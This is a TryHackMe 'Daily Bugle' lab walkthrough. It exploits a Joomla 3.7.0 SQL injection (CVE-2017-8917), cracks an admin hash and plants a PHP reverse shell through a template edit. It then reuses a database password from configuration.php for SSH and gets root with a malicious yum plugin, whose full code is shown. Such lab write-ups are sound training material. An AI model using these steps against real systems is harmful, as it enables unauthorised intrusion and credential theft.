# **TryHackMe: Daily Bugle – Room Walkthrough**

This room covers exploiting an unauthenticated SQL Injection flaw (CVE-2017-8917) in Joomla 3.7.0 to dump administrative password hashes, pivoting laterally across system configurations, and leveraging root-level execution parameters on the `yum` package manager to achieve absolute root status.

---

## **1. Scanning & Service Discovery**

I started by running an aggressive `nmap` version scan against the target system to see what services were listening.

```bash
nmap -sV -A -vv 10.49.188.195
```

**Open Ports:**

- **Port 22/tcp:** OpenSSH 7.4 (CentOS Linux)
- **Port 80/tcp:** Apache httpd 2.4.6
- **Port 3306/tcp:** MariaDB (MySQL Database alternative)

The Nmap headers on Port 80 immediately confirmed the existence of a standard Content Management System deployment:

`http-generator: Joomla! - Open Source Content Management`

---

## **2. Web Enumeration & SQL Injection (SQLi)**





I navigated to the site and ran a dedicated Joomla scanner tool (`joomscan`) to quickly finger-print the exact version structure of the CMS framework:

```bash
joomscan --url <http://10.49.188.195>
```



The tool successfully verified the core version index: **Joomla 3.7.0**.

Joomla 3.7.0 is notoriously vulnerable to an unauthenticated, union-based SQL Injection vulnerability within its `com_fields` component (**CVE-2017-8917**). I grabbed a public Python proof-of-concept script from GitHub designed to automate token extraction against this specific release:



```bash
python3 exploit.py <http://10.49.188.195>
```

The injection script successfully targeted the database parameters, fetched a security CSRF token, and dumped the user record tracking properties:

```
[$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya...', '', '']
```



I captured the administrative user account identifier (`jonah`) and its matching crypt-bcrypt signature string hash. I passed the hash over to [**Hashes.com**](http://hashes.com/) to run against their database arrays; it cracked instantly back to cleartext:

- **Cracked Credentials:** `jonah:spi********`
    
    
    

---

## **3. Gaining a Foothold (Reverse Shell)**

I logged into the admin control panel natively at `http://10.49.188.195/administrator/`.

To upgrade my administrative dashboard web session into an interactive system terminal connection, I utilized the built-in layout editor:
`Extensions` ➡️ `Templates` ➡️ `Templates` ➡️ `Protostar Details and Files` ➡️ `index.php`



I wiped the top elements of the default template core index script and replaced them cleanly with a standard **Pentestmonkey PHP Reverse Shell**, filling in my local VPN IP and setting the communication callback port to `4444`.

I initiated a terminal netcat port catcher on my end:

```bash
nc -lvnp 4444
```

Then, I saved the file and pressed the template preview button inside the dashboard to run my shell code script. The callback caught instantly, providing initial access under the server runtime user token account wrapper `apache`.



---

## 4. Horizontal Movement to User `jjameson`

Since the raw `apache` system account has highly limited scope over the Linux OS layout, I instantly moved into the web server deployment tree to inspect local configurations:



```bash
cd /var/www/html
cat configuration.php
```

Inside `configuration.php`, I discovered the raw structural credentials used to link the CMS back to the backend database architecture:

```php
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
public $db = 'joomla';
```



While these database credentials didn't let me log in as root directly over the standard system shell, I checked the host's `/etc/passwd` directory and found an explicit local operator user account named **jjameson**.

Reusing the found database password (`nv5uz9r3ZEDzVjNu`), I attempted to log in directly via the active SSH configuration port:

```bash
ssh jjameson@10.49.188.195
```

The password worked perfectly! I logged into the user's terminal home profile and cleanly extracted the primary user token file:

```bash
cat /home/jjameson/user.txt
```



---

## **5. Privilege Escalation to Root**

To escalate my access to root, I checked my active profile permissions to map what elevated commands could be executed safely without typing a standard password credential:

```bash
sudo -l
```

The system output flag dropped a critical misconfiguration finding entry:

```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```



Because **yum** (the CentOS Package Manager utility) can be run as root without authentication, an attacker can use it to inject code. Yum supports custom plugins written in Python; since it executes these plugins with administrative permissions during package resolution loops, we can use a plugin wrapper to break containment.

Following standard privilege escalation techniques, I generated a temporary execution layout workspace using standard system utilities:



```bash
# Create a temporary path directory variable location
TF=$(mktemp -d)

# Write a malicious custom yum configuration file layout schema
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

# Write the accompanying plugin profile tracking toggle state configuration link
cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

# Write the actual payload hook inside the plugin execution python sequence block
cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
    os.execl('/bin/sh','/bin/sh')
EOF
```

With the custom wrapper file pieces written out inside the globally writable `/tmp` path environment space, I called up yum using the configuration bypass parameters:

```bash
sudo yum -c $TF/x --enableplugin=y
```

When yum initialization routines checked the directories, it mapped my Python script file cleanly into memory hooks and immediately executed the `/bin/sh` shell function replacement under an absolute `root` context token state structure:

```
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
```

I jumped straight into the primary root account path space and cleanly extracted the absolute target CTF room resolution flag string tracking marker:

```bash
cat /root/root.txt
```



Room completed!

